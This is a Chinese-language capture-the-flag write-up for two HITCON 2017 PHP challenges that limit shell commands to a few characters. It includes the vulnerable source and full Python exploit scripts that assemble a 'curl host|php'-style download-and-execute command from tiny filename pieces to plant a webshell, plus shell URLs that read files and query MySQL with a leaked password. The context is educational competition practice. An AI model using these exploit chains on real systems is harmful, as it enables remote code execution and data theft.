

from HITCON CTF 2017
https://ctf2017.hitcon.org/
BabyFirst Revenge
Do you remember BabyFirst from HITCON CTF 2015?
This is the harder version!
http://52.199.204.34/
源码 1 2 3 4 5 6 7 8 9 10 <?php $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER ['REMOTE_ADDR' ]); @mkdir($sandbox ); @chdir($sandbox ); if (isset ($_GET ['cmd' ]) && strlen($_GET ['cmd' ]) <= 5 ) { @exec($_GET ['cmd' ]); } else if (isset ($_GET ['reset' ])) { @exec('/bin/rm -rf ' . $sandbox ); } highlight_file(__FILE__ );
解法 详细说明：https://findneo.github.io/171110Bypass4CLimit/
拿到shell后在/home/fl4444g/README.txt 得到数据库配置信息，然后连接数据库得到flag。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 http://52.199.204.34/sandbox/___MD5___of___ip/shell.php?cmd=cat%20/home/fl4444g/README.txt http://52.199.204.34/sandbox/___MD5___of___ip/fun.php?cmd=mysql -ufl4444g -pSugZXUtgeJ52_Bvr -e "show databases;" http://52.199.204.34/sandbox/___MD5___of___ip/fun.php?cmd=mysql -ufl4444g -pSugZXUtgeJ52_Bvr -e "select concat(table_name) from information_schema.tables where table_schema='fl4gdb';" http://52.199.204.34/sandbox/___MD5___of___ip/fun.php?cmd=mysql -ufl4444g -pSugZXUtgeJ52_Bvr -e "use fl4gdb;select * from this_is_the_fl4g"

EXP 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 import requests as rimport hashliburl = 'http://52.199.204.34/' ip = r.get('http://ipv4.icanhazip.com/' ).text.strip() sandbox = url + 'sandbox/' + hashlib.md5('orange' + ip).hexdigest() + '/' reset = url + '?reset' cmd = url + '?cmd=' build = ['>cur\\' , '>l\ \\' , 'ls>A' , 'rm c*' , 'rm l*' , '>105\\' , '>304\\' , '>301\\' , '>9\>\\' , 'ls>>A' , 'sh A' , 'php A' ] r.get(reset) for i in build: s = r.get(cmd + i) print '[%s]' % s.status_code, s.url s = r.get(sandbox + 'fun.php?cmd=uname -a' ) print '\n' + '[%s]' % s.status_code, s.urlprint s.text
更多解答 https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst-revenge
BabyFirst Revenge v2
BabyFirst Revenge v2
http://52.197.41.31/
源码 1 2 3 4 5 6 7 8 9 10 <?php $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER ['REMOTE_ADDR' ]); @mkdir($sandbox ); @chdir($sandbox ); if (isset ($_GET ['cmd' ]) && strlen($_GET ['cmd' ]) <= 4 ) { @exec($_GET ['cmd' ]); } else if (isset ($_GET ['reset' ])) { @exec('/bin/rm -rf ' . $sandbox ); } highlight_file(__FILE__ );
解法 这题是赛后看wp复现的，只到拿webshell的部分。
详细说明： https://findneo.github.io/171110Bypass4CLimit/
EXP 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 import requests as rfrom time import sleepimport randomimport hashlibtarget = 'http://52.197.41.31/' shell_ip = 'xx.xx.xx.xx' your_ip = r.get('http://ipv4.icanhazip.com/' ).text.strip() ip = '0x' + '' .join([str (hex (int (i))[2 :].zfill(2 )) for i in shell_ip.split('.' )]) reset = target + '?reset' cmd = target + '?cmd=' sandbox = target + 'sandbox/' + \ hashlib.md5('orange' + your_ip).hexdigest() + '/' pos0 = random.choice('efgh' ) pos1 = random.choice('hkpq' ) pos2 = 'g' payload = [ '>dir' , '>%s\>' % pos0, '>%st-' % pos1, '>sl' , '*>v' , '>rev' , '*v>%s' % pos2, '>p' , '>ph\\' , '>\|\\' , '>%s\\' % ip[8 :10 ], '>%s\\' % ip[6 :8 ], '>%s\\' % ip[4 :6 ], '>%s\\' % ip[2 :4 ], '>%s\\' % ip[0 :2 ], '>\ \\' , '>rl\\' , '>cu\\' , 'sh ' + pos2, 'sh ' + pos0, ] s = r.get(reset) for i in payload: assert len (i) <= 4 s = r.get(cmd + i) print '[%d]' % s.status_code, s.url sleep(0.1 ) s = r.get(sandbox + 'fun.php?cmd=uname -a' ) print '[%d]' % s.status_code, s.urlprint s.text
更多解答 https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst-revenge-v2
参考链接 来自小密圈里的那些奇技淫巧